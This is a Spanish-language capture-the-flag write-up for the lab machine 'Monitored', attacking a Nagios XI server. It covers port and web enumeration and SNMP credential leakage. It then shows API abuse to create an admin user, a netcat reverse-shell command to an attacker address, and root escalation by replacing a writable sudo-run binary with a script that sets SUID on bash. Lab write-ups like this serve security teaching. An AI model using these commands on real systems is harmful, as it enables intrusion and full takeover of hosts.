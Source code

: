 # Monitored Writeup

Escaneo de nmap para ecnontrar puertos

~~~bash
sudo nmap 10.10.11.248 -p- -sS --min-rate 5000 -n -vvv -Pn
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
389/tcp  open  ldap    syn-ack ttl 63
443/tcp  open  https   syn-ack ttl 63
5667/tcp open  unknown syn-ack ttl 63
sudo nmap 10.10.11.248 -sVC -p 22,80,389,443,5667
[sudo] password for h4m1: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-26 16:03 CST
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.069s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
5667/tcp open  tcpwrapped
~~~

Entramos al puerto 443 y vemos un panel de login.

([Pasted image 20240226163529.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240226163529.png))

Enumeramos con ffuf

~~~bash
ffuf -c -t 200 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://monitored.htb/nagiosxi/FUZZ/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://monitored.htb/nagiosxi/FUZZ/
 :: Wordlist         : FUZZ: /home/h4m1/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 84ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 485ms]
tools                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 394ms]
# This work is licensed under the Creative Commons [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 463ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Copyright 2007 James Fisher [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 543ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 544ms]
# on at least 2 different hosts [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 546ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 581ms]
# directory-list-2.3-medium.txt [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Priority ordered case-sensitive list, where entries were found [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 603ms]
reports                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 367ms]
admin                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 417ms]
account                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 327ms]
mobile                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 423ms]
help                    [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 530ms]
includes                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 80ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
db                      [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 79ms]
about                   [Status: 200, Size: 18068, Words: 3095, Lines: 310, Duration: 1028ms]
api                     [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 97ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 465ms]
config                  [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 189ms]
views                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 111ms]
sounds                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 81ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 136ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 503ms]
~~~


Enumeramos la API

~~~bash
Hay un authenticate, pero nadamás
~~~

Vamos a ver UDP, porque esto parece un rabbit hole, escaneamos UDP y encontramos SNMP

~~~bash
sudo nmap -sU monitored.htb  
sudo nmap --script "snmp* and not snmp-brute" monitored.htb -sU -p 161
~~~

Encontramos mucha información para analizarla más lentamente usamos SNMPWALK

~~~bash
snmpwalk -v1 -c public monitored.htb > SNMPOUTPUT

HOST-RESOURCES-MIB::hrSWRunParameters.1406 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh <user> <password>"
~~~

Al parecer en ninguna parte podemos autenticarnos con estas credenciales, menos en un lugar, en la API

~~~bash
curl -s -X POST 'https://monitored.htb/nagiosxi/api/v1/authenticate/' -k -d "username=<user>password=<password>"
~~~

Posteriormente, podemos utilizar el token que nos genera en la app web

~~~url
https://monitored.htb/nagiosxi/login.php?token=873959fc95b5f1dac4a388c940fa0cf54198787a
~~~

Posteriormente parece que no somos administradores, pero logramos ver que se está corriendo NagiosXI 5.11.0, vemos que hay varias vulnerabilidades, la funcional es la sqli...

https://vuldb.com/?id.239985

Podemos ver que es aprovechándonos de lo siguiente:

~~~url
/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
~~~

Con esto me pongo a probar la vulnerabilidad en burpsuite y posteriormente cree un script, parece ser una blind sqli

[Imagen](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170012.png)

Adjunto también el [script](https://github.com/Hamibubu/CVE-2023-48084) con el que consigo dumpear todo

Después de un rato encuentro que el hash no es posible crackear pero hay api key, investigando, con esa api key es posible crear un usuario con privilegios de administrador

https://support.nagios.com/forum/viewtopic.php?p=276220
https://support.nagios.com/forum/viewtopic.php?f=16&t=42923

~~~bash
curl -XPOST "http://monitored.htb/nagiosxi/api/v1/system/user?apikey=<api_key>&pretty=1" -d "username=hackerman&password=1234&name=HackerMan&email=hacker@monitored.htb&auth_level=admin" -k
~~~

Con esto gano admin access y hay una RCE que se puede aprovecharse, podemos crear comandos que queramos

[Pasted image 20240228170903.png](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228170903.png)

Aplicamos la configuración y ahora escuchamos con netcat

~~~bash
nc -lvnp 6666
~~~

[IMG](https://github.com/Hamibubu/Writeups/blob/main/MonitoredWriteup/Pasted%20image%2020240228171117.png)

Ejecutamos el comando con, netcat al parecer es con el que funciona `nc 10.10.15.2 6666 -e /bin/bash`

Llegamos ahora sí al user, comenzamos a hacer un reconocimiento, ejecutamos sudo -l y vemos lo siguiente


~~~bash
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~

Hay gran cantidad de binarios y podemos manejarlos al antojo

~~~bash
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
~~~

Tenemos varios servicios que podemos manejar, en base a esto podemos buscar estos 

~~~bash
echo '"postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"' | tr -d '"' | tr " " "\n" > services

nagios@monitored:~$ while read -r serv; do find / -writable -name "$serv" 2>/dev/null; done < services
/usr/local/nagios/bin/nagios
/home/nagios
/usr/local/nagios/bin/npcd
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
~~~

Podemos ver que podemos modificar nagios, lo podemos borrar y hacer que haga cosas, detenemos el servicio, lo borramos, cambiamos por un script de bash que nos genere una bash con permisos suid

~~~
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
nagios@monitored:~$ rm /usr/local/nagios/bin/nagios
nagios@monitored:~$ nano /usr/local/nagios/bin/nagios
nagios@monitored:~$ chmod 774 /usr/local/nagios/bin/nagios
nagios@monitored:~$ cat /usr/local/nagios/bin/nagios
#!/bin/bash
chmod u+s /bin/bash
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 32 Feb 28 18:39 /usr/local/nagios/bin/nagios
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.
nagios@monitored:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
nagios@monitored:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
~~~

Volvemos a correr eso y con ello ganamos el root de una forma sencilla
